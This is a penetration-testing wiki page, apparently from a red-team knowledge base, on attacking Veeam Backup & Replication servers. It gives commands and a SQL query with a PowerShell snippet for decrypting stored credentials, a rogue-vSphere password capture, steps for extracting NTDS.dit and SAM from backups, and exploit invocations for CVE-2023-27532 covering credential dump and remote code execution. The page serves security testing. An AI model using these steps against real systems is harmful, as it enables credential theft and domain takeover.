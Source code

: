 ```yaml
---
description: MITRE ATT&CK™ Credential Access - Tactic TA0006
---
```


# Veeam Backup

## Theory

[Veeam Backup & Recplication](https://www.veeam.com/) is a widely used tool  for backing up virtual environments built on VMware vSphere, Nutanix AHV, and Microsoft Hyper-V hypervisors. If you manage to compromise the Veeam Backup & Replication serveur, you can extract passwords and hashes from its database or from the machines that are backed up

{% hint style="info" %}
Veam servers used for the backup should not be joined to the domain, so when attackers compromise the domain, they can't destroy your backup.
{% endhint %}

## Practice

### Credentials Dump

Veeam requires the username and password for any machine you want to back it up. The user provided should have high privileges on the machine, so usually, if you're going to backup the domain devices, you will put administrator creds. Veeam stores these creds on MS-SQL using [ProtectedData.Protect](https://msdn.microsoft.com/en-us/library/2fh8203k\(v=vs.110\).aspx) method of CryptoAPI. You can easily extract them if you have **admin privilege on the Veeam Server**.

{% tabs %}
{% tab title="Veeam-Get-creds" %}
You can do this step by running the [veeam-creds](https://github.com/sadshade/veeam-creds) script and extract passwords.

```powershell
.\Veeam-Get-Creds.ps1
```
{% endtab %}

{% tab title="Veeampot" %}
If you are able to connect to the Veeam console and you have the right to create new connections to the hypervisor. You can have Veeam connect to a fake vSphere host.

{% hint style="info" %}
It doesn’t matter if the console is running on the same host or on a different one.
{% endhint %}

1. First, run [veampot.py](https://github.com/sadshade/veeam-creds/blob/main/veeampot.py) on your attacking machine

```bash
python3 veampot.py
```

2. Then, create a new connection to the vSphere server in the Veeam console in the Inventory section;
3. Enter the address of the machine with the running script specifying the connection port `8443`;
4. Select the required account and complete the wizard.&#x20;
5. Finlay, get password in script output.
{% endtab %}

{% tab title="SQL Request" %}
From SQL management studio (of any SQL management interface access method) run the following again the veeam managemnt database:

```sql
SELECT TOP (1000) [id] 
,[user_name] 
,[password] 
,[usn] 
,[description] 
,[visible] 
,[change_time_utc] 
FROM [VeeamBackup].[dbo].[Credentials] 
```

This will dumpt the password hashes. Copy them and then run a PowerShell interface

```powershell
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll" 

$encoded = 'INSERT_HASH_HERE' 

[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded) 
```
{% endtab %}

{% tab title="PowerShell Empire" %}
You may use the [VeeamGetCreds.yaml](https://github.com/sadshade/veeam-creds/blob/main/VeeamGetCreds.yaml) [PowerShell Empire](https://github.com/EmpireProject/Empire) module witch adapted Veeam-Get-Creds.ps1 script.

1. copy VeeamGetCreds.yaml to empire/server/modules/powershell/credentials/ folder
2. Run Empire server and client
3. Use as usual Empire module by name /powershell/credentials/VeeamGetCreds
{% endtab %}
{% endtabs %}

### Backup Machines - Hashes Extraction

If you can access a backup image, you can restore it on your local disk. More interesting, we can use the Veam individual files recover feature. Depending on the server backup type, you may extract SAM and LSA secrets from registry hives or even the NTDS.dit file if it's a domain controller. Check this section for more information about [credentials dumping](../../../../ad/movement/credentials/dumping.md).

{% tabs %}
{% tab title="From Veeam Backup files" %}
When you have a valid backup image, Veeam provides a restore mechanism by "[VBK Extract](https://www.veeam.com/fr/data-center-availability-suite-vcp-download.html?ref=julien.io)".  You can exfiltrate the backup images and extract the backup in multiple extensions like VMDM, VHD, or VHDX on your attacking host.

```bash
#Before, copy backups files in the current directory
#VBK Extract on linux
tar -zxvf VeamExtract*
./extract
```

We can then create a new VM from this files or mount it to our disk to recover sensitive files.
{% endtab %}

{% tab title="From Veeam Console" %}
From the Veeam console, to restore individual files, you need to select the required VM from the list of tasks from the section _Backups > Disk > ${JOB\_NAME}_ and select the recovery mode for individual files from the menu.

<figure><img src="../../../../.gitbook/assets/0_N6yuiYvbUpQUiF9s.webp" alt=""><figcaption></figcaption></figure>

After completing the wizard, a file selection window will open. To restore and decrypt the Active Directory database, you can extract several files:

* ntds.dit — encrypted [AD database](https://habr.com/ru/post/172865/);
* SYSTEM — registry branch containing the [BootKey ](https://moyix.blogspot.com.ar/2008/02/syskey-and-sam.html)encryption key;
* SECURITY — registry branch containing cached [LSA Secrets](https://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html) passwords;
* SAM — The [Security Accounts Manager](https://ru.wikipedia.org/wiki/Security\_Account\_Manager), which contains password hashes of local users.
{% endtab %}
{% endtabs %}

### Unauthenticated Credentials Dump & RCE - CVE-2023-27532

Vulnerability CVE-2023-27532 in a Veeam Backup & Replication component allows an unauthenticated user operating within the backup infrastructure network perimeter to obtain encrypted credentials stored in the configuration database or perform remote code execution.

{% hint style="info" %}
Any Veeam Backup & Replication version prior to V12  ([build 12.0.0.1420 P20230223](https://www.veeam.com/kb4420)) and V11a ([build 11.0.1.1261 P20230227](https://www.veeam.com/kb4245)) is vulnerable.
{% endhint %}

{% tabs %}
{% tab title="Dump Credentials" %}
We may use the [sfewer-r7's exploit](https://github.com/sfewer-r7/CVE-2023-27532) (C#) to dump credentials from a remote Veeam server.

```powershell
VeeamHax.exe --target <VEAM_IP>
```

Alternatively, we may use [this exploit](https://github.com/horizon3ai/CVE-2023-27532) (C#) from horizon3ai.

```
CVE-2023-27532.exe net.tcp://<VEAM_IP>:9401/
```
{% endtab %}

{% tab title="RCE" %}
We may use the [sfewer-r7's exploit](https://github.com/sfewer-r7/CVE-2023-27532) (C#) to run an arbitrary command with local system privileges on the remote Veeam server.

```powershell
VeeamHax.exe --target 192.168.0.100 --cmd calc.exe
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://medium.com/@_sadshade/veeam-backup-penetration-getting-the-most-out-of-pentest-17e0da021238" %}

{% embed url="https://www.pwndefend.com/2021/02/15/retrieving-passwords-from-veeam-backup-servers/" %}

{% embed url="https://forums.veeam.com/veeam-backup-replication-f2/recover-esxi-password-in-veeam-t34630.htm" %}
